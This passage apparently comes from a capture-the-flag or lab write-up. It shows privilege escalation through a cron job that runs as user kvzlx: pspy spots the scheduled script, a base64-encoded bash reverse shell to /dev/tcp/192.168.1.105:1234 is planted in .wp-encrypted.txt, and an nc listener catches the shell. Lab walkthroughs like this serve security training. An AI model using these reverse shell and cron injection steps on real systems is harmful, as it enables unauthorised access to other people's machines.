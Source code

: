 Therefore, we used the tool pspy, a command-line tool used to view running processes without needing root privileges. It can show us commands run by other users, cron jobs, etc.

![1](attachment/4c896c64b77da7ddd46116d43fad8ec4.png)

Using pspy, we observed that the user `kvzlx` executes a specific script every minute. This means any malicious command we manage to inject will be executed with the privileges of this user. To exploit this, we injected a reverse shell to gain access as `kvzlx`.

First, we need to encode our reverse shell in base64:

```
echo "bash -i &>/dev/tcp/192.168.1.105/1234 <&1" | base64; echo
```

 ![1](attachment/92c9b1872de6b2a5048e5424d8f3b3cb.png)
 
We then create the file `.wp-encrypted.txt` and insert the base64-encoded payload. 
On our attacking machine, we start a listener using `nc` and wait for the script to execute the injected code.
```
nc -nlvp 1234
```

We gained shell access as the user 'kvzlx'.
